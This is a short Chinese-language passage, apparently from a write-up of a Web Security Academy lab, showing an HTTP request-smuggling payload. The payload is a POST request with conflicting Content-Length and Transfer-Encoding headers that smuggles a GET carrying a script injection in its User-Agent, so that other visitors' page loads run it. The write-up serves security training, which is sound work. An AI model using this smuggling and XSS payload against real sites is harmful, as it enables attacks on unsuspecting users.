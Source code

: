 [![](assets/1698897445-32eb020d4c912df7f1feb541706479a9.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124235543.png)

我们可以构造以下数据包，只要发送一次

```plain
POST / HTTP/1.1
Host: ac811f011e27d43b80301693005a0007.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=iSxMvTrkiVN2G5N7EF7MTKgXGRE6A5xZ
Upgrade-Insecure-Requests: 1
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

然后我们随便访问该站任何页面都会被弹窗了，因为我们的请求被嵌入到了上面的第二个请求当中：

[![](assets/1698897445-ba6272ed02471cbbeec8d8ef6186bc5a.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125000410.png)
